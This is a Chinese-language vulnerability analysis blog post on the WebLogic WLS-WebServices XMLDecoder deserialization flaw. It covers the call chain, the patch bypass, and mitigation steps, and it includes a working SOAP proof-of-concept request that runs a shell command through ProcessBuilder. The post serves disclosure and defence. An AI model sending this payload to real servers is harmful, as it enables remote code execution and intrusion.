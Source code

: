 ```yaml
---
layout: post
title: WebLogic WLS-WebServices组件反序列化漏洞分析
categories: vulnerability analysis
tags: [vulnerability analysis]
---
```


最近由于数字货币的疯涨，大量机器被入侵后用来挖矿，其中存在不少部署了Weblogic服务的机器，因为Weblogic最近所爆出安全漏洞的exploit在地下广泛流传。回到这个漏洞本身，其原因在于WLS-WebServices这个组件中，因为它使用了XMLDecoder来解析XML数据。有安全研究人员在去年八月份就向官方报告了此漏洞，Oracle官方在今年四月份提供了补丁程序。但是，四月份提供的补丁感觉是在敷衍了事，因此很快就被绕过了。为此官方又只能新发补丁，不过十月份所提供的补丁，检查还是比较严格。下面具体来看看此次反序列漏洞
## 0x01漏洞复现
测试环境 Weblogic 10.3.6.0/jdk1.6.0_45/Linux

漏洞POC

```
POST /wls-wsat/CoordinatorPortType11 HTTP/1.1
Host: 127.0.0.1:7001
Cache-Control: max-age=0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.84 Safari/537.36
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,zh-TW;q=0.7
Connection: close
Content-Type: text/xml
Content-Length: 777

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">  
  <soapenv:Header> 
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">  
      <java> 
        <void class="java.lang.ProcessBuilder"> 
          <array class="java.lang.String" length="3"> 
            <void index="0"> 
              <string>/bin/sh</string> 
            </void>  
            <void index="1"> 
              <string>-c</string> 
            </void>  
            <void index="2"> 
              <string>id > /tmp/chaitin</string>
            </void> 
          </array>  
          <void method="start"/> 
        </void> 
      </java> 
    </work:WorkContext> 
  </soapenv:Header>  
  <soapenv:Body/> 
</soapenv:Envelope>
```
![](/old_img/2017-12-23-15139326533815.jpg)
![](/old_img/2017-12-23-15139326768139.jpg)
## 0x02漏洞分析
此次漏洞出现在wls-wsat.war中，此组件使用了weblogic自带的webservices处理程序来处理SOAP请求。然后在

```
weblogic.wsee.jaxws.workcontext.WorkContextServerTube
```
类中获取XML数据传递给XMLDecoder来解析。

解析XML的调用链为

```
weblogic.wsee.jaxws.workcontext.WorkContextServerTube.processRequest

weblogic.wsee.jaxws.workcontext.WorkContextTube.readHeaderOld

weblogic.wsee.workarea.WorkContextXmlInputAdapter

```
首先看到weblogic.wsee.jaxws.workcontext.WorkContextServerTube.processRequest方法
![](/old_img/2017-12-23-15139338809033.jpg)
获取到localHeader1后传递给readHeaderOld方法，其内容为```<work:WorkContext>```所包裹的数据，然后继续跟进weblogic.wsee.jaxws.workcontext.WorkContextTube.readHeaderOld方法
![](/old_img/2017-12-23-15139340157538.jpg)
在此方法中实例化了WorkContextXmlInputAdapter类，并且将获取到的XML格式的序列化数据传递到此类的构造方法中，最后通过XMLDecoder来进行反序列化操作。
![](/old_img/2017-12-23-15139341082935.jpg)
关于XMLDecoder的反序化问题13年就已经被人发现，近期再次被利用到Weblogic中由此可见JAVA生态圈中的安全问题是多么糟糕。值得一提的是此次漏洞出现了两处CVE编号，因为在Oracle官方在修复CVE-2017-3506所提供的patch只是简单的检查了XML中是否包含了<object>节点，然后将<object>换为<void>即可绕过此补丁。因此在修复过程中用户一定要使用Oracle官方十月份所提供的patch。

## 0x03漏洞防御
1. 临时解决方案
根据业务所有需求，考虑是否删除WLS-WebServices组件。包含此组件路径为：

```
Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/wls-wsat

Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/.internal/wls-wsat.war

Middleware/wlserver_10.3/server/lib/wls-wsat.war
```
以上路径都在WebLogic安装处。删除以上文件之后，需重启WebLogic。确认http://weblogic_ip/wls-wsat/ 是否为404页面。

2. 官方补丁修复
前往Oracle官网下载10月份所提供的安全补丁。

## 0x04 参考资料
http://blog.diniscruz.com/2013/08/using-xmldecoder-to-execute-server-side.html

https://github.com/pwntester/XMLDecoder


